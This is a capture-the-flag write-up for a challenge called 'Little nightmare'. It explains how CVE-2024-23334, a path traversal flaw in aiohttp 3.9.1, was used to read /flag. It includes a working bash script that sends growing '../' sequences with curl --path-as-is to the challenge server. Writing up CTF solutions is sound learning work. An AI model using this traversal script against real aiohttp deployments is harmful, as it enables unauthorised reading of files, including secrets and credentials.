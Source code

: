 !["Desc for Little nightmare"](24.png "Desc for Little nightmare")

#### Vulnerability

There is a usage of `aiohttp` python module which is vulnerable to Path Traversal vulnerability.

#### Solution

The main website doesn't have much functionality but we have the source code and we see it's using `aiohttp` with version `3.9.1`.

A quick google search reveals it has many vulnerabilities and one of them is Path Traversal [CVE-2024-23334](https://security.snyk.io/vuln/SNYK-PYTHON-AIOHTTP-6209406).

We an find many PoCs online, the one which worked for me was [this](https://github.com/z3rObyte/CVE-2024-23334-PoC/blob/main/exploit.sh)

From the `Dockerfile`, we know the flag is in `/flag`.

The script needed some modification according to our challenge, so the modified script is as follows.

```bash
#!/bin/bash

url="http://challs.airoverflow.com:34094"
string="../"
payload="/js/"
file="flag" # without the first /

for ((i=0; i<15; i++)); do
    payload+="$string"
    echo "[+] Testing with $payload$file"
    status_code=$(curl --path-as-is -s -o /dev/null -w "%{http_code}" "$url$payload$file")
    echo -e "\tStatus code --> $status_code"
    
    if [[ $status_code -eq 200 ]]; then
        curl -s --path-as-is "$url$payload$file"
        break
    fi
done
```

